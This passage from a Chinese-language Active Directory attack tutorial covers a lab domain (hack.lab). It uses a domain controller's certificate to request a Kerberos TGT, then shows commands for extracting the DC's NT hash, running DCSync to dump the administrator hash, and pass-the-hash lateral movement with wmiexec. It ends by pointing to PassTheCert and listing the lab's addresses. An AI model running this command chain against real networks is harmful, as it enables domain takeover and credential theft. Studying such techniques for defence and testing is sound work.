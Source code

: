 4. 通过gettgtpkinit.py使用证书申请TGT

```shell
python3 gettgtpkinit.py -cert-pfx dc01.pfx hack.lab/DC01$ dc01.ccache

2022-10-04 12:15:43,821 minikerberos INFO     b12ef2da16bdd741749a2ec30e67f0507ba38d7bb72f1c11034bc7160be98e50
INFO:minikerberos:b12ef2da16bdd741749a2ec30e67f0507ba38d7bb72f1c11034bc7160be98e50
2022-10-04 12:15:43,823 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

![x1NSO0.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-df9cb25d6afbb25f19606a6bda6b2a279e0382af.png)

5. 获取到域控TGT的后渗透攻击思路

思路1 - 获取域控Hash

```shell
KRB5CCNAME=dc01.ccache python3 getnthash.py -key b12ef2da16bdd741749a2ec30e67f0507ba38d7bb72f1c11034bc7160be98e50 hack.lab/DC01$
```

![x3TBxH.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-35307dcce67316218cb0e09f902f83b3b98bf4f1.png)

思路2 - 执行DCSync攻击并横向

```shell
KRB5CCNAME=dc01.ccache python3 secretsdump.py -k hack.lab/DC01\$@DC01.hack.lab -no-pass -just-dc-user administrator

python3 wmiexec.py -hashes :42e2656ec24331269f82160ff5962387 hack.lab/administrator@DC01.hack.lab -dc-ip 20.20.20.5
```

![x1N9mV.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-c85b26961fd50cd6ec8cba697ea963ca55eda807.png)

> PS：如果出现如下报错信息  
> \[-\] ERROR\_DS\_NAME\_ERROR\_NOT\_UNIQUE: Name translation: Input name mapped to more than one output name.  
> 就使用 -just-dc-user administrator 参数指定对象

### 攻击目标不支持 PKINIT 协议

这种情况下申请 TGT 票据会出现以下错误：

```shell
KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)" 
```

因此只能曲线就过了 —— 需要结合PTC攻击新思路，使用 PassTheCert 工具对LDAP服务器进行认证并进一步执行其他攻击思路。

工具地址 - [PassTheCert](https://github.com/AlmondOffSec/PassTheCert)

域内环境：

```txt
域控 - 20.20.20.5
辅域控（AD CS） - 20.20.20.6
域内主机 - 20.20.20.10
Kali - 20.20.20.100
```
